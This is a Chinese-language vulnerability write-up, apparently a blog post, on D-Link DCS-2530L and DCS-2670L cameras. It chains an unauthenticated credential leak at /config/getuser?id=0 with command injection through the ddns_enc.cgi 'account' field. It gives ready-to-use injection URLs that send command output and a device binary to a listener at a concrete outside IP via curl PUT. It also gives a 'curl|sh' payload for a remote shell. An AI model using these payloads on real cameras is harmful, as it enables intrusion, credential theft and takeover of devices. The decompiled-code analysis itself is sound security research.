

>yk2eR0@HATLAB

## 官网公告
[
Authenticated Command Injection and Unauthenticated Credential Disclosure](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10180)
## 影响范围

DCS-2530L v1.05.05 & older

DCS-2670L v2.02 & older
## 测试环境

设备厂商：D-Link
设备型号：D-Link DCS-2530L
设备版本：1.04

## 关键程序提取
由于公布的两个漏洞CVE-2020-25079 + CVE-2020-2507刚好一个敏感信息泄露,一个命令执行,刚好凑一套RCE.尝试使用命令执行dump下来关键二进制程序来分析.
### payload
由于注入无回显,所以用curl的方法让被测机器向我们的服务端发送数据来显示注入结果:在本地``nc -lvp 11451``
首先通过
``http://2remoteip/cgi-bin/ddns_enc.cgi?enable=1&hostname=qq&interval=24&servername=www.dlinkddns.com&provider=custom&account=;ls >a;curl%20-X%20PUT%201local ip:localport%20-T%20a;``来找命令执行的根目录.本地接收到请求:

通过``;curl  local ip:localport|sh``来弹出无回显远程shell;
找出关键二进制程序在``execs/``中,通过服务端``nc -lvp 11451 >aHttpMain``,注入点``;curl%20-X%20PUT%20121.36.223.38:12668%20-T%20/execs/aHttpMain;``将aHttpMain提取出来


### CVE-2020-25079漏洞分析


漏洞点在aHttpMain,在处理ddns设置请求的函数中:
```c
  if ( !strcasecmp(s1, "www.dlinkddns.com") || !strcasecmp(s1, "www.dyn.com") )
  {
    if ( a5 )
    {
      if ( !*(_BYTE *)a5 )
        v12 = "NULL";
    }
    else
    {
      v12 = "NULL";
    }
    if ( a6 )
    {
      if ( !*(_BYTE *)a6 )
        v13 = "NULL";
    }
    else
    {
      v13 = "NULL";
    }
    snprintf(
      s,
      0x100u,
      "ez-ipupdate -i %s -S %s -u %s:%s -h %s -d -P 600 -M %u -F \"%s\"",
      (const char *)a1,
      "dyndns",
      v12,
      v13,
      (const char *)a4,
      3600 * a7,
      (const char *)a2);
    return system(s);
  }
```
程序通过调用ez-ipupdate来实现ddns的配置,对用户输入仅做了是否为空的判断,而没有进行任何**安全性检查**.
snprintf处未做处理直接进行拼接,拼接值传入system执行.
当用户输入account值为``;ls;``时函数将会执行``ez-ipupdate -i 
interface -S Host Name  -u ;ls;:%s -h %s -d -P 600 -M %u -F \"%s\"``在执行ez-ipupdate后将执行ls命令,成功实现命令注入.

### CVE-2020-25078:

并为路径在中途未做相应的访问控制，直接在摄像头的根目录加上 /config/getuser?id=0 路径，从这里窃取代码出设备的账户名和密码。

